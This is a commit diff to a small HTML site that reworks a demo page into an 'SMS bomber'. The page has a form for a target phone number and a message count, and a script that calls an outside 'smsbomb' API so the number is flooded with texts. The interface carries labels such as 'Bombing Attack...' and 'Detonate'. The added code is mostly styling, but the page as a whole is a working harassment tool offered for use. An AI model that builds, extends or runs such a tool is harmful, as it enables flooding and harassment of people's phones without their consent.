

Before and after one commit to Ari2477/bomber, a plain HTML site: page index.html in a window 390 px wide. Shown: the whole page, 413 px wide, since content can reach past the window. Before the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,133 +2,296 @@
 <html lang="en">
 <head>
 <meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Cute API Request</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
+<title>SMS bomber</title>
+
+<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.0/css/all.min.css">
 
 <style>
+  @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;700&display=swap');
+
   body {
     font-family: "Poppins", sans-serif;
-    background: linear-gradient(135deg, #ff9cf9 0%, #8ba6ff 50%, #7efff9 100%);
+    background: #f4f4f4;
     margin: 0;
-    padding: 0;
+    padding: 20px;
     min-height: 100vh;
     display: flex;
     flex-direction: column;
     align-items: center;
     justify-content: center;
+    overflow-x: hidden;
+    -webkit-tap-highlight-color: transparent;
+    background-image:
+      radial-gradient(circle at 20% 80%, rgba(120, 119, 198, 0.3) 0%, transparent 50%),
+      radial-gradient(circle at 80% 20%, rgba(255, 119, 198, 0.3) 0%, transparent 50%),
+      radial-gradient(circle at 40% 40%, rgba(120, 219, 255, 0.3) 0%, transparent 50%);
+    background-size: 300px 300px;
+  }
+
+  .notebook-lines {
+    position: absolute;
+    top: 0;
+    left: 0;
+    width: 100%;
+    height: 100%;
+    background-image: repeating-linear-gradient(
+      to bottom,
+      transparent,
+      transparent 24px,
+      rgba(0,0,0,0.1) 24px,
+      rgba(0,0,0,0.1) 25px
+    );
+    pointer-events: none;
+    z-index: 0;
   }
 
   h1 {
-    font-size: 3em;
+    font-size: 2.5em;
     margin-bottom: 20px;
-    background: linear-gradient(90deg, #fff, #eaffff);
-    -webkit-background-clip: text;
-    -webkit-text-fill-color: transparent;
-    text-shadow: 0px 0px 20px rgba(255,255,255,0.8);
+    color: #333;
+    text-shadow: none;
+    display: flex;
+    gap: 12px;
+    align-items: center;
+    justify-content: center;
+    text-align: center;
+    flex-wrap: wrap;
+    z-index: 1;
+    font-family: 'Courier New', monospace;
   }
+  h1 i { color: #ff6b6b; }
 
   .container {
-    max-width: 600px;
-    width: 90%;
-    padding: 40px;
-    border-radius: 25px;
-    background: rgba(255,255,255,0.25);
-    backdrop-filter: blur(12px);
-    border: 2px solid rgba(255,255,255,0.4);
-    box-shadow: 0 0 25px rgba(255,255,255,0.6);
+    width: 95%;
+    max-width: 350px;
+    padding: 25px 18px;
+    border-radius: 10px;
+    background: #fff;
+    border: 1px solid #ddd;
+    box-shadow: 0 4px 20px rgba(0,0,0,0.1);
+    position: relative;
+    z-index: 1;
+    margin: 0 10px;
+    background-image:
+      linear-gradient(90deg, transparent 98%, #ddd 98%),
+      repeating-linear-gradient(
+        to bottom,
+        transparent,
+        transparent 24px,
+        rgba(0,0,0,0.05) 24px,
+        rgba(0,0,0,0.05) 25px
+      );
+    background-size: 100% 100%, 100% 100%;
   }
 
   label {
     font-weight: 600;
     margin-top: 15px;
     display: block;
-    color: #fff;
+    color: #333;
+    font-size: 16px;
+    font-family: 'Courier New', monospace;
+  }
+
+  .input-box {
+    position: relative;
+    width: 100%;
+    margin-top: 8px;
+    margin-bottom: 15px;
+  }
+
+  .input-box i {
+    position: absolute;
+    top: 50%;
+    left: 15px;
+    transform: translateY(-50%);
+    color: #666;
+    font-size: 18px;
   }
 
   input {
-    width: 100%;
-    padding: 15px;
-    margin-top: 8px;
-    border-radius: 15px;
-    border: none;
+    width: 81%;
+    padding: 15px 15px 15px 45px;
+    border: 1px solid #ccc;
+    border-radius: 5px;
     outline: none;
     font-size: 16px;
-    background: rgba(255,255,255,0.5);
+    background: #fafafa;
     color: #333;
-    box-shadow: inset 0 0 10px rgba(255,255,255,0.6);
+    box-shadow: inset 0 1px 3px rgba(0,0,0,0.1);
+    transition: 0.3s;
+    font-family: 'Courier New', monospace;
+  }
+  input:focus { border-color: #ff6b6b; background: #fff; }
+
+  button {
+    width: 75%;
+    padding: 1px;
+    margin-top: 20px;
+    border: 1px solid #ccc;
+    border-radius: 5px;
+    font-size: 16px;
+    font-weight: bold;
+    background: #ff6b6b;
+    color: #fff;
+    cursor: pointer;
+    transition: 0.3s;
+    box-shadow: 0 2px 10px rgba(255,107,107,0.3);
+    display: flex;
+    align-items: center;
+    justify-content: center;
+    gap: 10px;
+    min-height: 50px;
+    font-family: 'Courier New', monospace;
+    margin-left: auto;
+    margin-right: auto;
+  }
+  button:hover {
+    background: #ff5252;
+    box-shadow: 0 4px 15px rgba(255,107,107,0.5);
+  }
+  button:active { transform: scale(0.98); }
+  button i { font-size: 20px; }
+
+  .charging-btn {
+    position: relative;
+    overflow: hidden;
+    background: #333;
+    border: 1px solid #4cc9f0 !important;
+    box-shadow:
+      0 0 12px #4cc9f0,
+      0 0 20px #4895ef inset;
+    transform: scale(0.97);
+    animation: chargePulse 0.6s infinite alternate ease-in-out;
   }
 
-  button {
-    width: 100%;
-    padding: 18px;
-    margin-top: 25px;
-    border: none;
-    border-radius: 15px;
-    font-size: 18px;
-    font-weight: bold;
-    background: linear-gradient(90deg, #fff7fa, #c7fff9);
-    cursor: pointer;
-    transition: .3s ease;
-    box-shadow: 0 6px 20px rgba(255,255,255,0.7);
+  @keyframes chargePulse {
+    0% { box-shadow: 0 0 10px #4cc9f0, 0 0 6px #4895ef inset; }
+    100% { box-shadow: 0 0 16px #4cc9f0, 0 0 20px #4895ef inset; }
   }
 
-  button:hover {
-    transform: translateY(-3px);
-    box-shadow: 0 10px 25px rgba(255,255,255,1);
+  .charge-wrapper {
+    display: flex;
+    align-items: center;
+    gap: 10px;
+  }
+
+  .charge-bar {
+    width: 24px;
+    height: 24px;
+    border-radius: 4px;
+    border: 2px solid #48bfe3;
+    overflow: hidden;
+    position: relative;
+  }
+
+  .charge-bar::before {
+    content: "";
+    position: absolute;
+    top: 0;
+    left: -100%;
+    width: 100%;
+    height: 100%;
+    background: linear-gradient(90deg, #56cfe1, #64dfdf, #80ffdb);
+    animation: chargeFill 1.4s infinite linear;
+  }
+
+  @keyframes chargeFill {
+    0% { left: -100%; }
+    100% { left: 100%; }
+  }
+
+  .charge-text {
+    color: #90e0ef;
+    font-weight: bold;
+    letter-spacing: 1px;
+    font-size: 14px;
+    text-shadow: 0 0 8px #48bfe3;
   }
 
   .console {
-    margin-top: 30px;
-    background: rgba(0,0,0,0.7);
-    border-radius: 15px;
-    padding: 20px;
-    height: 260px;
+    margin-top: 20px;
+    background: #f9f9f9;
+    border: 1px solid #ddd;
+    border-radius: 5px;
+    padding: 15px;
+    height: 180px;
     overflow-y: auto;
     font-family: "Courier New", monospace;
     font-size: 14px;
-    color: #bafffc;
-    box-shadow: inset 0 0 15px rgba(255,255,255,0.2);
+    color: #333;
+    box-shadow: inset 0 1px 3px rgba(0,0,0,0.1);
+    -webkit-overflow-scrolling: touch;
   }
+  .log { color: #28a745; }
+  .info { color: #ffc107; }
+  .error { color: #dc3545; }
 
-  .log { color: #9dff9d; }
-  .info { color: #fff1a6; }
-  .error { color: #ff9c9c; }
-
-  .loading {
-    display: inline-block;
-    width: 20px;
+  .progress-container {
+    width: 100%;
     height: 20px;
-    border: 3px solid rgba(255,255,255,0.3);
-    border-radius: 50%;
-    border-top-color: #ffffff;
-    animation: spin 1s infinite linear;
-    margin-right: 10px;
+    border-radius: 5px;
+    background: #e9ecef;
+    margin-top: 15px;
+    overflow: hidden;
+    box-shadow: inset 0 1px 3px rgba(0,0,0,0.1);
   }
-
-  @keyframes spin {
-    to { transform: rotate(360deg); }
+  .progress-bar {
+    width: 0%;
+    height: 100%;
+    background: linear-gradient(90deg, #ff6b6b, #ff8a80);
+    border-radius: 5px;
+    transition: width 0.3s ease;
+  }
+  @media (max-width: 600px) {
+    h1 {
+      font-size: 2em;
+    }
+    .container {
+      padding: 20px 15px;
+    }
+    input {
+      font-size: 16px;
+    }
+    button {
+      font-size: 16px;
+    }
   }
 </style>
 </head>
 <body>
 
-<h1>💖 Cute API Demo 💖</h1>
+<div class="notebook-lines"></div>
+
+<h1><i class="fa-solid fa-bomb"></i> SMS  <i class="fa-solid fa-bomb"></i></h1>
 
 <div class="container">
   <form id="apiForm">
-    <label>Phone Number:</label>
+    <label><i class="fa-solid fa-phone"></i> Phone Number:</label>
+    <div class="input-box">
+      <i class="fa-solid fa-mobile-screen"></i>
       <input type="text" id="number" placeholder="e.g. +639123456789" required>
+    </div>
 
-    <label>Amount:</label>
+    <label><i class="fa-solid fa-coins"></i> Amount:</label>
+    <div class="input-box">
+      <i class="fa-solid fa-hashtag"></i>
       <input type="number" id="amount" placeholder="e.g. 10" min="1" required>
+    </div>
 
     <button type="submit" id="submitBtn">
-      <span id="btnText">Process Request ✨</span>
+      <i class="fa-solid fa-bomb"></i>
+      <span id="btnText">Bombahin mo na yah</span>
     </button>
+
+    <div class="progress-container">
+      <div class="progress-bar" id="progressBar"></div>
+    </div>
   </form>
 
   <div class="console" id="consoleBox">
-    <div class="info">System Ready 💫</div>
+    <div class="info"><i class="fa-solid fa-circle-check"></i> Ready to Launch</div>
   </div>
 </div>
 
@@ -136,6 +299,7 @@
 const logBox = document.getElementById("consoleBox");
 const btn = document.getElementById("submitBtn");
 const btnText = document.getElementById("btnText");
+const progressBar = document.getElementById("progressBar");
 
 function log(msg, type="log") {
   const line = document.createElement("div");
@@ -146,7 +310,21 @@
 }
 
 function clearConsole() {
-    logBox.innerHTML = '<div class="info">System Ready 💫</div>';
+  logBox.innerHTML = '<div class="info"><i class="fa-solid fa-circle-check"></i> Ready to Launch</div>';
+}
+
+function animateProgress(duration=3000) {
+  progressBar.style.width = "0%";
+  let start = null;
+
+  function step(timestamp) {
+    if (!start) start = timestamp;
+    const progress = Math.min((timestamp - start) / duration, 1);
+    progressBar.style.width = (progress * 100) + "%";
+    if (progress < 1) requestAnimationFrame(step);
+  }
+
+  requestAnimationFrame(step);
 }
 
 document.getElementById("apiForm").addEventListener("submit", async (e) => {
@@ -161,32 +339,36 @@
   }
 
   btn.disabled = true;
-    btnText.innerHTML = '<div class="loading"></div>Processing...';
+  btn.classList.add("charging-btn");
+  btnText.innerHTML = `
+    <div class="charge-wrapper">
+      <div class="charge-bar"></div>
+      <span class="charge-text">Bombing Attack...</span>
+    </div>
+  `;
 
   clearConsole();
-    log("Preparing request...", "info");
+  log("Preparing payload...", "info");
 
-    // ✔ DUMMY API (always works)
+  animateProgress(4000);
+
   const baseUrl = "https://sms-tanginamoka-api-ryujin.vercel.app/api/smsbomb";
     const apiUrl = baseUrl + "?number=" + encodeURIComponent(number) + "&amount=" + encodeURIComponent(amount);
 
   setTimeout(async () => {
     log("Sending request to server...", "info");
-
     try {
       const response = await fetch(apiUrl);
       const data = await response.json();
-
       log("Request successful!", "log");
       log("Server Response: " + JSON.stringify(data), "info");
-
     } catch (err) {
       log("Network Error: " + err.message, "error");
     }
-
     btn.disabled = false;
-      btnText.textContent = "Process Request ✨";
-    }, 1800);
+    btnText.textContent = "Detonate";
+    progressBar.style.width = "0%";
+  }, 4200);
 });
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
